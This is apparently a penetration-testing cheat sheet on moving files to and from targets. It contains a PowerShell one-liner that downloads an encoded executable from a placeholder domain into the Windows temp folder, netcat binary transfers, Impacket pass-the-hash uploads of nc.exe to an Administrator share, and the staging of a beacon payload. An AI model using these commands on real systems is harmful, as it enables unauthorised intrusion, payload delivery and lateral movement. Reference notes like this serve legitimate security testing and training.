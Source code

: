 ### Download base64 encoded file   
- `[System.IO.File]::WriteAllBytes("c:\windows\temp\telem.exe",[System.Convert]::FromBase64String((New-Object Net.Webclient).downloadstring("https://XOURDOMAIN.COM")))`   

### netcat
- transfer files from kali to windows:  
   1. open listener on target: `nc -nlvp 4444 > incoming.exe` 
   2. send file to target:  `nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe` 
- transfer files from windows to kali:  
   1. on Kali: `nc -nlvp 4444 > file.txt` 
   2. on Windows: `nc.exe -10.11.0.90 4444 < c:\users\bla\file.txt` 

### Impacket
- connect smbclient.py with hash:   
  `/usr/share/doc/python3-impacket/examples/smbclient.py -hashes :175a592f3b0c0c5f02fad40c51412d3a Administrator@10.11.1.202` 
- get shares: `shares` 
- upload something to c$:  
  `use C$`  
  `put /var/www/html/transfer/nc.exe` 

### Download with SCP
- when having SSH key to remote target, download file with:  
  `scp -i mysshprivatekey user@10.10.10.10:/home/myuser/filename /home/folder/targetfilename`  
- Multiple files:
  `scp -r -i C:\Users\username\.ssh\sshkey user@1.1.1.1:/home/user/nmap_results* .`
- From Windows using Putty: (using user root on the target vm "kali" to download the file /tmp/file.bin to the current dir on Windows)   
  `pscp root@kali:/tmp/file.bin .`   

### Upload  
  `# scp -r localfolder/ user@remotehost:/targetdir/`   
  Single file:   
  `$ scp -i /home/kali/.ssh/id_rsa /home/kali/Desktop/urls.txt username@server.domain.com:/home/username/urls.txt`   
 - On Windows using Putty:   
  `C:\Payloads>pscp beacon-http.bin root@kali:/tmp/beacon.bin`

### SSH copy
- file: `scp -p 192.168.1.100:/root/filetocopy targetfile` 
- directory: `scp -r root@192.168.1.100:/var/log ~/backup-logs`  

### Others
- `smbget -R smb://1.1.1.1/folder` 
- LOLBins Windows: https://lolbas-project.github.io/
- LOLBins Linux: https://gtfobins.github.io/
- Updog (https://github.com/sc0tfree/updog) --> `updog -d /tmp/www/ -p 443 --password SuperS3cr3t --ssl`   
- goshs (https://github.com/patrickhener/goshs) --> supports user provided certs   
